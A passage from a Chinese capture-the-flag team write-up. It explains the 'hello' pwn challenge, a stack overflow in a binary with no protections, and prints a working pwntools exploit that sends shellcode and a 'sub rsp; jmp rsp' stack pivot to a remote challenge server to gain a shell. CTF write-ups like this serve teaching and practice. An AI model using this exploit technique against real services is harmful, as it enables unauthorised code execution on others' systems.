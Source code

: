 ```yaml
---
team: 枣子姐永远滴神
members:
    - u7chi
    - Tian
    - 讲不了道理哇_
---
```

## 目录
+ 0x1 PWN
	+ 0x11 hello
	+ 0x12 ezsc
	+ 0x13 noleak
+ 0x2 MISC
	+ 0x21 MiniGameHacking
	+ 0x22 MITM1 and MITM2
+ 0X3 Android
	+ 0x31 Testonly?
	+ 0x32 Khronos
+ 0x4 Reverse
	+ 0x41 Easyre

## 0x1 PWN
### 0x11 hello
先查看一下程序开启了哪些保护，发现啥都没开。

![11.PNG](https://i.loli.net/2020/05/18/lPMYCRDs4aqdoIX.png)

再来看看IDA逆向的源码，下图所示函数中存在漏洞，读入了过量的字符

![12.PNG](https://i.loli.net/2020/05/18/uzb3CykpmWgBUcH.png)

但是由于读入数据长度受限，我们最多能再覆盖一个rbp和一个ret加一个ret下面的栈帧。无法构造较长的RoP链。在看到NX disabled后，就考虑将shellcode布置到栈上，利用跳转到ret下面的栈帧做跳板（该栈帧我们可以任意控制，因而可以写入代码sub rsp, 0x40;jmp rsp)来跳转到shellcode处。
具体exp如下：
```python
#encoding:utf-8
from pwn import *

context(arch='amd64', os='linux', log_level='debug')


sh = remote('pwn.challenge.mini.lctf.online', 10043)

jmp_rsp = 0x4006ca #用Ropgadget得到跳转到栈上执行代码的指令的地址
sub_rsp_jmp = asm('sub rsp, 0x40;jmp rsp')
shellcode = asm(shellcraft.sh())
print len(shellcode) #这里打印一下shellcode的长度，看之后需要补几个'a'
sh.recvuntil('name?\n')
shell =shellcode + 'a'*0x8+p64(jmp_rsp)+sub_rsp_jmp
sh.sendline(shell)



sh.interactive()
```
### 0x12 ezsc
同样的，查看一下程序开启的保护,没法修改got表，不能在栈上运行代码，有canary。
